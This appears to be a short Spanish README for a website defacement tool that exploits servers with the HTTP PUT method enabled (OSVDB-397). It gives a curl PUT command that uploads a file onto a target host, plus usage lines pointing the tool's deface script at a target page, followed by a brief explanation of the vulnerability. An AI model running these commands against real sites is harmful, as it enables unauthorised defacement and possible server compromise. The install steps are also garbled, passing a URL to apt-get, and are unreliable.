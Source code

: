 ## Defacement WEB suite por HTTP Method PUT OPTIONS POST OSVDB-397

curl -k -X PUT -T "/tmp/index2.htm" "https://IP/index2.htm" -vv

# Instalación:

apt-get install #https://github.com/hackingyseguridad/webdeface

cd webdeface

chmod 777 *

Uso:

sh deface.sh http://paginaobjetivo.com/

# Test HTTP Method PUT OPTIONS POST, activo:

sh testurl.sh fqdn

OSVDB-397 El método HTTP PUT normalmente se usa para cargar datos que se guardan en el servidor web en una URL proporcionada por el usuario. Si está habilitado, un atacante puede colocar contenido en la aplicación Web. Dependiendo de la configuración del servidor, esto puede llevar a un compromiso de otros usuarios (mediante la carga de scripts ejecutables por el cliente), el compromiso del servidor (al cargar el código ejecutable del servidor) u otros ataques.



http://www.hackingyseguridad.com/
